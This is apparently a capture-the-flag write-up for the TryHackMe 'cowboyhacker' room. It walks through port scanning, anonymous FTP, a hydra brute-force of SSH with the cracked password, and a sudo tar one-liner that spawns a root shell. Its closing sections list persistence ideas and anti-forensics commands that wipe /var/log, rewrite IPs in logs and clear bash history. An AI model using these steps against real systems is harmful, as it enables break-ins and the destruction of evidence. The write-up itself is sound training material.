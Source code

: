 ```yaml
---
title: "THM:cowboyhacker"
subtitle: "TryHackMe CTF room: https://tryhackme.com/room/cowboyhacker"
categories: [ctf, thm]
tags: [ctf,nmap,gobuster,dirbuster,ftp,hydra,apache,ubuntu,privesc,sudo]
---
```

# cowboyhacker

URL: [https://tryhackme.com/room/cowboyhacker](https://tryhackme.com/room/cowboyhacker) &nbsp;<span class="badge rounded-pill bg-success" title="This is an Easy difficulty room."><i class="fa fa-bolt"></i>&nbsp;Easy</span>

## PHASE 1: Reconnaissance

Description of the room:

> You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future! 

## PHASE 2: Scanning & Enumeration

### Scan: `nmap`

Ran the following:

> `nmap -vv xxx.xxx.xxx.xxx`

Interesting ports found to be open:

```
PORT      STATE  SERVICE         REASON
20/tcp    closed ftp-data        conn-refused
21/tcp    open   ftp             syn-ack
22/tcp    open   ssh             syn-ack
80/tcp    open   http            syn-ack
```

*Also see: [nmap.log](nmap.log)*

### Scan: `gobuster`

Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://xxx.xxx.xxx.xxx`

This resulted in two directories being found:

* `/images/` - only images.
* `/server-status` - got `403 Forbidden`.

*Also see: [gobuster.log](gobuster.log)*

## PHASE 3: Gaining Access


### FTP Service

Since FTP was running, we log in as `anonymous`:

> `ftp anonymous@xxx.xxx.xxx.xxx`

After doing a directory listing with `ls` or `dir`, we see there are two files there: `locks.txt` and `task.txt`. We retrieve these files back down to our workstation:

> `mget *.txt ./`

This does a (multiple)-get of `*.txt` files and puts them in our current directory on the workstation. The two files:

* [locks.txt](locks.txt)
* [task.txt](task.txt)

### Cracking SSH password for `lin`

We know from the `task.txt` file that the username is `lin`. The contents of `locks.txt` look at lot like leet-speak passwords. So, we can use hydra to see if any of those are the password for the `lin` account:

> `hydra -l lin -P ./locks.txt ssh://10.10.47.229`

And we find that one is found:

```
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-19 21:01:57
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.47.229:22/
[22][ssh] host: 10.10.47.229   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-19 21:02:04
```

*Also see: [hydra.log](hydra.log)*

With that username and password, we can SSH into the box:

> `ssh lin@xxx.xxx.xxx.xxx`

And we use the password `RedDr4gonSynd1cat3` found by hydra, above. We are now logged in as an **unprivileged account** and can retrieve the `~/user.txt` flag, the first flag for this room.

### PE: Sudo Privileges

Logged-in as user `lin`, we check to see if we have any `sudo` permission:

> `sudo -l`

We do! Oddly enough, it is for the `tar` command. We can go look up privesc techniques over on gtfobins:

> https://gtfobins.github.io/gtfobins/tar/#sudo

Using this technique, that means that as `tar` is running as root, we could coerce it to run a command upon a checkpoint. For example, it could open a new bash prompt. Since tar would be running as `root`, that bash prompt would be running as root. So, we execute the following:

> `sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash`

You see an error message, but **it does dump you at a root prompt!** From here, one can `cat /root/root.txt` to complete the room. That is the second flag to capture for this room.


## PHASE 4: Maintaining Access

This is a test machine. However, in a Red Team scenario, we could:

* Add SSH key to `/root/.ssh/authorized_keys`
* Create a privileged account that wouldn't draw attention (ex: `operations`).
* Install some other backdoor or service.

## PHASE 5: Clearing Tracks

This is a test machine. However, in a Red Team scenario, we could:

### Delete relevant logs from `/var/log/` - although that might draw attention

> `rm -Rf /var/log/*`

### Search and replace our IP address in all logs via

> `find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {} \;`

### Wipe bash history for any accounts we used via

> `cat /dev/null > /root/.bash_history`
>  
> `cat /dev/null > /home/kathy/.bash_history`
>  
> `cat /dev/null > /home/sam/.bash_history`

## Summary

Completed: `2022-01-19 21:18:28`